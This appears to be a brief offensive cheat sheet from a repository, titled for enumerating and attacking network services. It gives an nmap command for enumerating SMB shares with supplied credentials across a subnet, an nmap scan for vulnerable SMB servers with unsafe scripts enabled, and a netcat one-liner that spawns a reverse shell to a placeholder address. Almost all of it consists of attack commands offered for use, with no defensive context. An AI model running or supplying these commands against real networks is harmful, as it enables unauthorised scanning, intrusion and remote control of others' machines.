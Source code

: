 # enum-attacking-net-services


Locate and enum open smb shares:

``nmap -T4 -v -oA shares --script smb-enum-shares --script-args smbuser=username,smbpass=password -p445 192.168.1.0/24``

Scan for vulnerable SMB servers:

``nmap -v -p 445 --script=smb-check-vulns 
--script-args=unsafe=1 192.168.1.0/24``

use netcat to spawn a reverse shell:

``nc -e /bin/sh SOME-IP-ADDRESS 80``

todo: add metasploit/bash automated scanners
